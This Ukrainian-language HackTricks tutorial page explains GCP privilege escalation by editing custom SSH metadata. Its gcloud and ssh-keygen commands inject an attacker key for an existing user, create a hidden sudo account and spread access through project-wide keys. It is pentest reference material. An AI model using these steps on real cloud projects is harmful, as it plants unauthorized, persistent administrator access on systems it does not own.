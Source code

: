 # GCP - Додавання користувацьких метаданих SSH

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

## Зміна метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Зміна метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

### **Включення SSH-ключів у користувацькі метадані**

На GCP, **системи Linux** часто виконують скрипти з [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих публічних SSH-ключів**.

Отже, якщо зловмисник може змінити користувацькі метадані, він може змусити демона знайти новий публічний ключ, який буде оброблений та **інтегрований у локальну систему**. Ключ буде доданий до файлу `~/.ssh/authorized_keys` існуючого користувача або, можливо, створення нового користувача з привілеями `sudo`, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

### **Додавання SSH-ключа до існуючого привілейованого користувача**

1. **Перегляд існуючих SSH-ключів на екземплярі:**
- Виконайте команду для опису екземпляра та його метаданих для пошуку існуючих SSH-ключів. Відповідний розділ у виводі буде під `metadata`, зокрема ключ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Зверніть увагу на формат SSH-ключів: перед ключем йде ім'я користувача, розділене двокрапкою.

2. **Підготовка текстового файлу для метаданих SSH-ключа:**
- Збережіть деталі імен користувачів та відповідних SSH-ключів у текстовий файл з назвою `meta.txt`. Це важливо для збереження існуючих ключів при додаванні нових.

3. **Створення нового SSH-ключа для цільового користувача (`alice` у цьому прикладі):**
- Використовуйте команду `ssh-keygen` для генерації нового SSH-ключа, переконавшись, що поле коментаря (`-C`) відповідає імені цільового користувача.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Додайте новий публічний ключ до `meta.txt`, наслідуючи формат, знайдений у метаданих екземпляра.

4. **Оновлення метаданих SSH-ключа екземпляра:**
- Застосуйте оновлені метадані SSH-ключа до екземпляра за допомогою команди `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Доступ до екземпляра за допомогою нового SSH-ключа:**
- Підключіться до екземпляра за допомогою SSH за допомогою нового ключа, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).
```bash
ssh -i ./key alice@localhost
sudo id
``` 

### **Створення нового привілейованого користувача та додавання SSH-ключа**

Якщо не знайдено цікавого користувача, можливо створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH до кількох віртуальних машин (VMs) в хмарному середовищі, **застосовуючи SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра всередині проекту, який не явно заблокував проектні SSH ключі. Ось короткий посібник:

1. **Застосування SSH ключів на рівні проекту:**
- Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія гарантує, що SSH ключі визнаються на всіх VMs у проекті, якщо VM не має включеної опції "Блокувати проектні SSH ключі".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH в екземпляри, використовуючи проектні ключі:**
- З проектними SSH ключами встановленими, ви можете SSH в будь-який екземпляр всередині проекту. Екземпляри, які не блокують проектні ключі, приймуть SSH ключ, надаючи доступ.
- Прямий метод SSH в екземпляр полягає в використанні команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.


# References
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
